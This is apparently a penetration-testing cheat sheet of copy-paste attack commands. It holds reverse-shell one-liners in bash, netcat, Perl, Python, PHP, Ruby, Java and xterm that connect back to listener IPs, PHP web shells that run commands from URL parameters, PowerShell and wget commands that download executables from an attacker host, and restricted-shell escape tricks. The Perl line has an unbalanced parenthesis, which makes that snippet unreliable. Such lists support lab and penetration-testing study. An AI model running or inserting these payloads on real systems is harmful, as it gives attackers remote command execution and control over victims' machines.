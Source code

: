 # Simple bash revshell
```bash -i >& /dev/tcp/10.11.0.130/443 0>&1```

# Bash FIFO
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.130 443 >/tmp/f```

# Perl
```
perl -e 'use Socket;$i="10.11.0.130";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# PHP
```php -r '$sock=fsockopen("10.11.0.185",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

# Ruby
```ruby -rsocket -e'f=TCPSocket.open("10.11.0.185",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d2>&%d",f,f,f)'```
# netcat
```nc -e /bin/sh 10.11.0.130 443```

-https://highon.coffee/blog/reverse-shell-cheat-sheet/

# PHP WebShell 
```<?php echo shell_exec($_GET['cmd']);?>```

```<?php system($_GET['cmd']);?>```

# JAVA
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line
2>&5 >&5; done"] as String[])
p.waitFor()
```

# Powershell
#### Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe","C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

```Wget/fetch```

```Wget http://10.11.0.130/test.txt -o C:\temp\test.txt```

# xterm
"One of the simplest forms of reverse shell is an xterm session. 
The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001:

```xterm -display 10.0.0.1:1```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). 

One way to do this is with Xnest (to be run on your system):

```Xnest :1```

You’ll need to authorise the target to connect to you (command also run on your host):

```xhost +targetip```

# Shell Escape; from Shellcatraz
```
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

/bin/sh -i

perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')
(From within IRB)

exec "/bin/sh"
(From within vi)

:!bash
(From within vi)

:set shell=/bin/bash:shell
(From within nmap)

!sh
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
